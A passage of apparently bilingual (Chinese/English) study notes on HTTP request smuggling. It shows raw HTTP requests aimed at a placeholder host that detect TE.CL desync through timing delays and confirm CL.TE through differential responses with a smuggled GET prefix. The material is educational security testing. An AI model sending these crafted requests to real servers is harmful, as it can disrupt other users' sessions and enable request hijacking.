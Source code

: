 前端仅转发此请求的一部分，忽略X。

后端服务器处理第一个块，然后等待下一个块到达。这将导致可观察到的时间延迟。

### Finding TE.CL

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

…后端服务器使用Content-Length头，期望消息正文中有更多内容，并等待剩余内容到达……



**NOTE: CL.TE test first because TE.CE test might** **disrupt other application users**

 

## Confirming vulnerabilities using differential responses

涉及快速连续向应用程序发送两个请求：

- 旨在干扰下一个请求处理的“攻击”请求。

- 一个“正常”请求。


例如，假设正常请求如下所示：

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### Confirming CL.TE

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
